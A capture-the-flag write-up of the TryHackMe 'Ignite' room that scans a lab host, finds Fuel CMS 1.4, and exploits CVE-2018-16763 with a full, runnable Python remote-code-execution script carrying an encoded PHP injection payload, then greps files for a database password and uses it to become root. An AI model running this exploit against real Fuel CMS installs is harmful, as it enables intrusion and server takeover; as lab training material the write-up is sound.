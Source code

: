 > Thu 31 Jul 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s1.png]]

# Ignite [Link](https://tryhackme.com/room/ignite)
## 1. Reconnaissance
### TCP Scan

```bash
sudo nmap -sCV -p- -T4 -oN nmap.txt 10.10.141.45
```

| Port | Service | Version                        |
| ---- | ------- | ------------------------------ |
| 80   | http    | Apache httpd 2.4.18 ((Ubuntu)) |

Based on the scan results, we can observe that `port 80` is open and running an **Apache HTTP server**

## 2. Enumeration

### Web Enumeration

![[Write-ups/TryHackMe/Linux/img/s6.png]]

The website reveals it's running **Fuel CMS v1.4**.

**Vulnerability Identified:**
- **CVE:** CVE-2018-16763
- **Description:** Remote Code Execution.

While exploring, I also discovered a directory:

## 3. Exploitation

I used the following proof-of-concept (PoC) to exploit CVE-2018-16763:


```python
import requests
import sys
from urllib.parse import quote
import argparse

def prep_payload(url, cmd):
    # Ensure URL ends with /
    if not url.endswith('/'):
        url += '/'
    return url + 'fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27' + quote(cmd) + '%27%29%2b%27'

def send_payload(payload, proxy=None, timeout=10):
    try:
        proxies = {"http": proxy, "https": proxy} if proxy else None
        r = requests.get(payload, proxies=proxies, timeout=timeout, verify=False)
        r.raise_for_status()  # Raise exception for bad status codes
        return r.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Error sending payload: {e}")
        return None

def start_up():
    parser = argparse.ArgumentParser(
        formatter_class=argparse.RawTextHelpFormatter,
        epilog='Example: python ' + sys.argv[0] + ' -u http://vulnsite.com -c whoami\nCreated By: @shoamshilo 2021')
    parser.add_argument('-u', '--url', required=True, help='The url for the fuel cms application.')
    parser.add_argument('-c', '--cmd', required=True, help='The command that you want to run.')
    parser.add_argument('--proxy', help='Add a proxy passthrough.')
    parser.add_argument('--timeout', type=int, default=10, help='Request timeout in seconds.')
    return parser.parse_args()

if __name__ == '__main__':
    args = start_up()
    print('[+] Preparing the payload')
    payload = prep_payload(args.url, args.cmd)
    print(f'[+] Sending payload to: {payload}')
    response = send_payload(payload, args.proxy, args.timeout)

    if response:
        print('[+] Payload executed successfully')
        print(response)
    else:
        print('[-] Failed to execute payload')

```

**🏁 First Flag**
While running commands via RCE, I discovered: `/home/www-data/flag.txt`

## 3.Credential Discovery
```bash
cat * | grep password // shows an alert in the admin backend if this is the admin password | ['password'] The password used to connect to the database 'password' => 'mememe'
```

## 4.Privilege Escalation
```bash
su root
Password: mememe
```

after login as root I discovered: `/root/root.txt`

